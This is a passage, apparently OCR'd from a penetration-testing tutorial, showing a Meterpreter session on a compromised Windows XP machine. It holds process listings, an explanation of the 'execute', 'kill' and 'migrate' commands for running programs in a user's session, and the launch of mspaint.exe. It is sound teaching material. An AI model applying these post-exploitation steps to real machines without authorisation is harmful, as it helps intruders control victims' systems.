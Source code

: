     640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

Now we can run any program with the `execute` command and stop it with the `kill` command. Our program does not run on the screen but in the background, since we do not run it as the current user. Therefore, we need to move to a program that is already running, owned by the current user with the command `migrate` and then with the command `execute` we can run the program on the screen.

    meterpreter > execute -f mspaint.exe
    Process 1456 created.
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
